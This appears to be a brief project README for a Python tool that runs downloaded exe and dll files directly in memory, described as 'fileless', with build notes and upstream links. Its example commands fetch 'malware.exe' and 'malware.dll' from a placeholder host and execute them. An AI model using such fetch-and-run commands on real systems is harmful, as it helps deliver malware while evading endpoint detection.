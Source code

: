 Greetings
# PythonMemoryModule
execute any PE (dll,exe) in memory filelessly


# usage

pyMemory.py < url> < TYPe >

# build into exe

use pyinstaller or nuitka and build pymemory.py

or use the prebuilt exe in ./output 

# example

exe : PyexecMemory.exe http://example.com/malware.exe EXE 

dll: PyexecMemory.exe http://example.com/malware.dll DLL --Method DLLRegisterServer

# Check form more info

https://github.com/naksyn/PythonMemoryModule

https://www.joachim-bauch.de/tutorials/loading-a-dll-from-memory/